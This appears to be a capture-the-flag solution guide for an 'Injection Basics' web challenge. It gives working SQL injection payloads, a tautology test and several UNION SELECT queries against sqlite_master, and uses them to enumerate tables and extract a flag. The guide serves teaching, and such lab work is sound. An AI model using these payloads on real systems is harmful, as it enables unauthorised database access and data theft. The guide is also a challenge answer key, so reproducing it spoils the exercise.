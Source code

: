 # Solution Guide: Injection Basics Challenge

This document provides the solution method for the "Injection Basics" web challenge.

## Challenge Summary
The challenge involves exploiting a SQL injection vulnerability in an employee search function to extract sensitive data from a hidden table.

## Solution Steps

### Step 1: Explore the Application
1. Visit the application at http://[challenge-url]/
2. Try searching for an employee by ID (e.g., enter "1" in the search box)
3. Observe that the application returns employee information based on the ID

### Step 2: Test for SQL Injection Vulnerability
Try entering a simple SQL injection test:
```
1 OR 1=1
```

This should return all employees in the database, confirming that the application is vulnerable to SQL injection.

### Step 3: Identify the Database Structure
To discover other tables in the database, we can use a UNION-based SQL injection:

```
1 UNION SELECT name, null, null, null, null FROM sqlite_master WHERE type='table'
```

This will return the employee with ID 1 plus a list of all table names in the database. You should see:
- employees
- secret_table

### Step 4: Explore the Secret Table
Now that we know about the `secret_table`, let's examine its structure:

```
1 UNION SELECT sql, null, null, null, null FROM sqlite_master WHERE type='table' AND name='secret_table'
```

This will show the CREATE TABLE statement for the secret_table, revealing its columns:
- id
- secret_key
- flag

### Step 5: Extract the Flag
Now we can extract the flag from the secret_table:

```
1 UNION SELECT id, secret_key, flag, null, null FROM secret_table
```

This will return the employee with ID 1 plus the contents of the secret_table, including the flag:

```
flag{sql_1nj3ct10n_101}
```

## Alternative Shorter Solution
If you already know or suspect that there's a table with a flag column, you can try directly:

```
1 UNION SELECT null, null, flag, null, null FROM secret_table
```

Or even more directly:

```
0 UNION SELECT 1, 2, flag, 4, 5 FROM secret_table
```

This uses 0 as the initial ID (which likely doesn't exist) so only the UNION results are shown.

## Advanced SQL Injection Techniques

### Using Comments to Ignore the Rest of the Query
```
1 UNION SELECT 1, 2, flag, 4, 5 FROM secret_table --
```

The `--` comment tells the SQL engine to ignore everything after it.

### Using LIKE to Search for the Flag Pattern
```
1 UNION SELECT 1, 2, flag, 4, 5 FROM secret_table WHERE flag LIKE 'flag{%'
```

This ensures we only get results where the flag matches the expected pattern.

## Security Concepts Demonstrated
This challenge demonstrates:
1. **SQL Injection**: The ability to modify the structure of SQL queries through user inputs
2. **Input Validation**: Lack of proper input validation and parameterized queries
3. **Database Enumeration**: How attackers can discover database structure through injection
4. **Sensitive Data Exposure**: How improperly secured databases can leak sensitive information 